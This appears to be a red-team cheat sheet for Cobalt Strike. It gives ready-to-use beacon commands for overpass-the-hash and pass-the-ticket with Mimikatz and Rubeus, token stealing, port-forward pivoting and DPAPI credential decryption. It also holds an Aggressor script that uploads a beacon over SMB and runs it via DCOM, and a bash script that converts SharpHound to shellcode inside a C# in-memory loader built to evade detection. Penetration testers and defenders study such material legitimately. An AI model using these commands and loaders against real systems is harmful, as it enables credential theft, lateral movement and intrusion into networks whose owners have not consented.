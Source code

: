 # Cobalt Strike

- [https://reconshell.com/list-of-awesome-cobaltstrike-resources/](https://reconshell.com/list-of-awesome-cobaltstrike-resources/)
- [https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)




## Malleable C2 Profiles

- [https://github.com/rsmudge/Malleable-C2-Profiles](https://github.com/rsmudge/Malleable-C2-Profiles)
- [https://github.com/BC-SECURITY/Malleable-C2-Profiles](https://github.com/BC-SECURITY/Malleable-C2-Profiles)
- [https://github.com/threatexpress/malleable-c2](https://github.com/threatexpress/malleable-c2)
- [https://gist.github.com/tothi/8abd2de8f4948af57aa2d027f9e59efe](https://gist.github.com/tothi/8abd2de8f4948af57aa2d027f9e59efe)



### Generators

- [https://github.com/Tylous/SourcePoint](https://github.com/Tylous/SourcePoint)
- [https://github.com/FortyNorthSecurity/C2concealer](https://github.com/FortyNorthSecurity/C2concealer)




## Aggressor Scripts

- [https://trial.cobaltstrike.com/aggressor-script/index.html](https://trial.cobaltstrike.com/aggressor-script/index.html)
- [https://chowdera.com/2021/02/20210204190220156W.html](https://chowdera.com/2021/02/20210204190220156W.html)




## P2P Beacons

Beacon TCP and Beacon SMB are Peer-to-Peer beacons which means they're used to chain a connection to an existent beacon. They act like bind shells and waits for the attacker to connect to them.

Connect to a TCP beacon:

```
beacon> connect <IP> <PORT>
```

Connect to an SMB beacon:

```
beacon> link <IP>
```




## Overpass-the-Hash

More opsec PtH than builtin `pth` command (which does the Mimikatz `sekurlsa::pth` thing with named pipe impersonation):

```
beacon> mimikatz sekurlsa::pth /user:snovvcrash /domain:megacorp.local /ntlm:fc525c9683e8fe067095ba2ddc971889
beacon> steal_token 1337
```

Same with Rubeus (must be in elevated context):

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
beacon> steal_token 1337
```

Use Rubeus with lower privileges:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec

PS > [System.IO.File]::WriteAllBytes("C:\Windows\Tasks\tgt.kirbi", [System.Convert]::FromBase64String("<BASE64_TICKET>"))
Or
$ echo -en "<BASE64_TICKET>" | base64 -d > tgt.kirbi

beacon> run klist
Or
beacon> execute-assembly Rubeus.exe klist

beacon> make_token MEGACORP\snovvcrash dummy_Passw0rd!
beacon> kerberos_ticket_use C:\Windows\Tasks\tgt.kirbi
```




## Pass-the-Ticket

Create a sacrificial process, import the TGT into its logon session and steal its security token:

```
beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
beacon> execute-assembly Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
beacon> beacon> steal_token 1337
```




## Pivoting

Make any traffic hitting port **8443** on Victim to be redirected to **10.10.13.37** on port **443** (traffic flows through the Team Server):

```
beacon> rportfwd 8443 10.10.13.37 443
```

Make any traffic hitting port **8080** on Victim to be redirected to **localhost:8080** on Attacker (traffic flows through the CS client):

```
beacon> rportfwd_local 8080 127.0.0.1 80
```

Extending `jump` with [Invoke-DCOM.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1):

```powershell
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

Forward SOCKS server's port from team server to the client:

```
beacon> socks 1080
$ ssh -tt -v -L 9050:localhost:1080 root@teamserver
```




## Credentials



### DPAPI

List credential blobs:

```
beacon> ls C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials
```

List vault credentials:

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> mimikatz vault::list
```

Check which master keys correspond to credential blobs (look for **guidMasterKey** field with GUID):

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB>
```

The master key is stored here:

```
beacon> ls C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID>
```

Decrypt the master key via RPC on the Domain Controller and show it:

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID> /rpc
```

Decrypt the blob with decrypted master key:

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB> /masterkey:<MASTERKEY>
```




## BloodHound

* [https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146)

Grab the latest version of [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe), convert it to a shellcode with [donut](https://github.com/TheWover/donut), insert bytes in a C# skeleton and cross-compile it for use in Windows with [Mono](https://www.mono-project.com/download/stable/) compiler:

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/penetrarnya-tm/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}

